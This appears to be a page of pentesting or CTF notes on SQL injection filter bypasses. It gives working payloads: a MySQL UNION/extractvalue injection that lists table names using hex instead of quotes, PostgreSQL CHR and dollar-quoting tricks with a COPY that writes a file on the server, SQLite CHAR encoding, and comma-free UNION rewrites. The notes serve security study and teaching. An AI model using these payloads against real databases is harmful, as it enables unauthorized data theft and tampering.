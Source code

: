## Bypasses and advanced techniques

### Avoid quotes and double quotes

**MySQL**

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/web/baby-sql]
└─$ echo -n "db_m412" | xxd
00000000: 6462 5f6d 3431 32                        db_m412
```

```sql
UNION select 1, extractvalue(0x0a,concat(0x0a,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='db_m412' )))-- -#

# becomes
UNION select 1, extractvalue(0x0a,concat(0x0a,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=0x64625f6d343132 )))-- -#
```

**PostgreSQL**

```sql
# CHR
amdb=#SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
?column?
----------
AWAE
(1 row)

# Lexial Structure $$
SELECT 'AWAE';
SELECT $$AWAE$$;
SELECT $TAG$AWAE$TAG$;

CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($$test$$);
COPY AWAE(offsec) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;
COPY 1
Query returned successfully in 201 msec.
```

SQLite :

```sql
select CHAR(41,42,43,44,45) FROM XXX WHERE Y=Y;
```

See also [Evading Restrictions](Evading%20Restrictions.md)

### Avoid commas

No Comma - bypass using OFFSET, FROM and JOIN: [^hacktricks-article]  [^ippsec-video]

[^hacktricks-article]: [No commas bypass](https://book.hacktricks.xyz/pentesting-web/sql-injection#no-commas-bypass), book.hacktricks.xyz
[^ippsec-video]: [SQL Injecting Beyond Strict Filters - Union Without Comma](https://www.youtube.com/watch?v=61kf4CEnOZk), IppSec

```SQL
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```


[^demo]: [Test SQL queries online against the specified DB](https://youtu.be/61kf4CEnOZk?si=7heW6R8LN0pkQth3&t=1291), IppSec